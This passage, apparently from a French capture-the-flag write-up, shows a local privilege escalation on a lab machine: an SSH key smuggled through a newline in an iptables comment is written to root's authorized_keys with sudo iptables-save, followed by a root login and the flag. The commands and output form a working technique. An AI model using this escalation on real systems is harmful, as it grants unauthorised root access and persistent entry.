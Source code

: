 #sudo /usr/sbin/iptables-save > /tmp/rules.v4
sudo /usr/sbin/iptables -F

sudo /usr/sbin/iptables -A INPUT -p tcp -s localhost --dport 5000 -j ACCEPT
sudo /usr/sbin/iptables -A INPUT -p tcp --dport 5000 -j REJECT

sudo /usr/sbin/iptables -A INPUT -p tcp -s localhost --dport 7096 -j ACCEPT
sudo /usr/sbin/iptables -A INPUT -p tcp --dport 7096 -j REJECT

sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
{{< /highlight >}}

On va s'appuyer sur l'article suivant afin d'élever nos privilèges: https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/

Ici, la conservation des retours à la ligne dans les commentaires d'`iptables` va nous permettre d'écrire dans un fichier arbitaire via `iptables-save`.

Donc, nous allons écraser le fichier des clés publiques autorisées par `root` afin d'y ajouter la notre.

{{< highlight go "hl_lines=1 2 15" >}}
sergej@backfire:~$ sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AA...Dk kali@kali\n'
sergej@backfire:~$ sudo iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "
ssh-ed25519 AA...Dk kali@kali
" -j ACCEPT
sergej@backfire:~$ sudo iptables-save -f /root/.ssh/authorized_keys
{{< /highlight >}}

Nous pouvons maintenant accéder à la machine en tant que root via SSH.

{{< highlight go "hl_lines=1 2 4" >}}
$ ssh -i ~/.ssh/id_ed25519 root@10.10.11.49          
root@backfire:~# ls
root.txt
root@backfire:~# cat root.txt
a7b6[...]174e
{{< /highlight >}}
